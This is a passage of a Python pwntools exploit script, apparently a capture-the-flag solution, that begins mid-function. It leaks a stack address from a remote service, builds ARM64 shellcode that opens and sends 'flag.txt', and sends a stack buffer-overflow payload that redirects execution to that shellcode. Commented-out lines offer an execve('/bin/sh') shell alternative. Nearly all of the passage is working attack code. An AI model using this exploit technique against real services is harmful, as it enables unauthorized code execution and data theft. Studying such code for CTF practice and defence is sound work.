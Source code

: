 ```python
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"The cops said I was going ")
    stack = int(target.recvuntil(b" ").strip(), 10) + 117
    target.success(f"stack: {hex(stack)}")

    # shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))
    # shellcode = shellcraft.open("flag.txt", 0, 0)
    # shellcode += shellcraft.sendfile(1, "x0", 0, 0x1000)

    shellcode = asm("""
        // cache invalidation gadget
        adr x9, orw
        dc cvau, x9
        add x10, x9, #0x40
        dc cvau, x10
        dsb ish
        ic ivau, x9
        ic ivau, x10
        dsb ish
        isb

    orw:
        // openat(dfd=AT_FDCWD, filename="flag.txt", flags=0, mode=0)
        // AT_FDCWD = 0xFFFFFFFFFFFFFF9C (-100)
        mov x0, #-100
        adr x1, filename
        mov x2, #0
        mov x3, #0
        mov x8, #56
        svc #0

        // sendfile(out_fd=1, in_fd=X0, offset=0, count=0x1000)
        mov x1, x0
        mov x0, #1
        mov x2, #0
        mov x3, #0x100
        mov x8, #71
        svc #0

    filename:
        .ascii "flag.txt\\x00"
    """)

    length = len(shellcode)
    target.warn(f"shellcode length: {hex(length)}")

    payload = flat(
        b"A" * 0x48,
        stack + 0x48 + 0x8,
        shellcode,
    )
    raw_input("DEBUG")
    target.sendlineafter(b"What do I tell them??", payload)

    target.interactive()


```
